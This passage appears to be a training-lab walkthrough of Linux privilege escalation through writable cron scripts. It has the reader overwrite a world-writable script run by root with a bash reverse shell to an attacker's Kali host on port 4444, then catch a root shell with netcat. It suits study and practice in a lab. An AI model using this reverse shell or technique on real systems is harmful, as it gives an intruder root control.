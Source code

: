 **Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (44) (1) (2).png" alt=""><figcaption></figcaption></figure>

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file.

**Victim**

```
locate overwrite.sh
```

Note that the file is world-writable.

**Victim**

```
ls -l /usr/local/bin/overwrite.sh
```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box

#### overwrite.sh

```
#!/bin/bash
bash -i >& /dev/tcp/$KALI/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

